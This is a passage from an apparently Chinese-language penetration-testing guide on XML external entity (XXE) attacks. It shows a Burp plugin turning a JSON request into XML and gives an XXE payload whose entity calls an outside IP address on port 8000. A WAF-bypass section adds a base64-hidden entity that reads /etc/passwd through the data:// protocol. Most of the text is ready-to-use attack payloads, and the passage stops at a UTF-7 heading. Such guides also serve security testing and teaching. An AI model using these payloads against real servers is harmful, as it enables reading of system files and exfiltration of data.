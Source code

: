 然后您可以提交以下请求，结果相同：

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

#### Content-Type: From JSON to XEE

这个地方需要更改请求，可以使用名为“Content Type Converter”的Burp 插件。例如：

```json
Content-Type: application/json;charset=UTF-8

{"root": {"root": {
  "firstName": "Avinash",
  "lastName": "",
  "country": "United States",
  "city": "ddd",
  "postalCode": "ddd"
}}}
```

可通过插件转换成：

```xml-dtd
Content-Type: application/xml;charset=UTF-8

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://34.229.92.127:8000/TEST.ext" >]> 
<root>
 <root>
  <firstName>&xxe;</firstName>
  <lastName/>
  <country>United States</country>
  <city>ddd</city>
  <postalCode>ddd</postalCode>
 </root>
</root>
```

### WAF & Protections Bypasses

#### Base64

```xml-dtd
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

该 payload 只有当XML服务器接受 data://协议是才会生效

#### **UTF-7**

